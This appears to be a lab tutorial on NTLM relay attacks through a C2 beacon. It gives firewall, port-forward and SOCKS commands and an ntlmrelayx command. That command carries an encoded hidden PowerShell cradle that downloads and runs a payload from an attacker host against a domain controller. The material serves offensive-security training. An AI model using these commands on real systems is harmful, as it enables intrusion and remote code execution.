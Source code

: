 In an NTLM relay attack, an attacker is able to intercept or capture this authentication traffic and effectively allows them to impersonate the client against the same, or another service.  For instance, a client attempts to connect to Service A, but the attacker intercepts the authentication traffic and uses it to connect to Service B as though they were the client.

Requirements:
1. A [driver](https://reqrypt.org/windivert.html) to redirect traffic destined for port 445 to another port (e.g. 8445) that we can bind to.
2. A reverse port forward on the port the SMB traffic is being redirected to.  This will tunnel the SMB traffic over the C2 channel to our Team Server.
3. The tool of choice (ntlmrelayx) will be listening for SMB traffic on the Team Server.
4. A SOCKS proxy is to allow ntlmrelayx to send traffic back into the target network.

The flow looks something like this:

![](https://rto-assets.s3.eu-west-2.amazonaws.com/relaying/overview.png)

1. First, ensure all the pre-requisites are in place before launching the actual attack.  Obtain a SYSTEM beacon on the machine you will capture the SMB traffic on.
2. Next, allow those ports inbound on the Windows firewall.
```
beacon> powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```
3. Then start two reverse port forwards - one for the SMB capture, the other for a PowerShell download cradle.
```
beacon> rportfwd 8445 localhost 445
[+] started reverse port forward on 8445 to localhost:445

beacon> rportfwd 8080 localhost 80
[+] started reverse port forward on 8080 to localhost:80
```
4. The final part of the setup is to start a SOCKS proxy that ntlmrelayx can use to send relay responses back into the network.
```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```
5. Now we can start `ntlmrelayx.py` listening for incoming connections on the Team Server.  The `-c` parameter allows us to execute an arbitrary command on the target after authentication has succeeded.
```
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAyADMALgAxADAAMgA6ADgAMAA4ADAALwBiACIAKQA='
```

Where:

- 10.10.122.10 is the IP address of `dc-2.dev.cyberbotic.io`, which is our target.
- The encoded command is a download cradle pointing at `http://10.10.123.102:8080/b`, and `/b` is an SMB payload.
